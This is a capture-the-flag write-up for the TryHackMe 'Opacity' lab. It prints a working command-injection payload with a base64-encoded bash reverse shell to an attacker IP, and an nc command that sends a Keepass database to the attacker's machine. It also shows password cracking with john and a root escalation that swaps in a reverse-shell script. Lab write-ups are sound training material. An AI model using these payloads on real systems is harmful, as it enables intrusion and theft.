 ```yaml
---
title: Opacity
description: 'RCE through command injection, cracking a Keepass database and exploiting permissions on a script'
pubDate: 2023-06-14
category: 'tryhackme'
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/328c078f7c5695439a46ba90ae48aaa0.png'
---
```


After running Feroxbuster we find `/cloud/`:

```bash
feroxbuster -u http://10.10.254.116
...[snip]...
[####################] - 40s    30000/30000   742/s   http://10.10.254.116/cloud/
...[snip]...
```

## USER

We can inject in the `url` param that is used to post images:

```
POST /cloud/ HTTP/1.1
Host: 10.10.254.116
...[snip]...
url=`echo+YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC44LjExOS4xMzcvNDQ0NCAwPiYx|base64+-d|bash`ncl;x.jpg
```
Now we got a shell on the box.

In the `/var/www/html/login.php` we find some credentials:

```php
...[snip]...
$logins = array('admin' => 'oncloud9','root' => 'oncloud9','administrator' => 'oncloud9');
...[snip]...
```

## USER

In the `/opt`/ folder there is a Keepass database (`dataset.kdbx`), lets download it:

On our machine:
```bash
nc -l -p 1234 > dataset.kdbx
```

On the remote:
```bash
nc -w 3 10.8.119.137 1234 < dataset.kdbx
```

### Cracking Keepass

We need to crack the password for the Keepass database:
```bash
keepass2john dataset.kdbx > dataset.hash
john --wordlist=/usr/share/wordlists/rockyou.txt dataset.hash
...[snip]...
741852963        (dataset)
...[snip]...
```

Opening the database with `kpcli`:
```bash
kpcli:/>open dataset.kdbx
kpcli:/>ls
=== Groups ===
Root/
kpcli:/>cd Root/
kpcli:/Root>ls
=== Entries ===
0. user:password
kpcli:/Root> show -a -f 0
Title: user:password
Uname: sysadmin
 Pass: Cl0udP4ss40p4city#8700
...[snip]...
```

This password can be used to SSH as user `sysadmin`.

## ROOT

The `scripts` folder is not writable, but since its inside the `sysadmin` group we can move it.
So create a new folder (`scripts_/`) with a `scripts.php` file containing a reverse shell.
The moving the original `scripts/` folder to `scripts_bak` and moving our scripts folder (`scripts_/`) to the old scripts folder location.

```bash
mv scripts scripts_bak && mv scripts_ scripts
```

Now after about a minute the scripts gets executed and we get a shell as root.

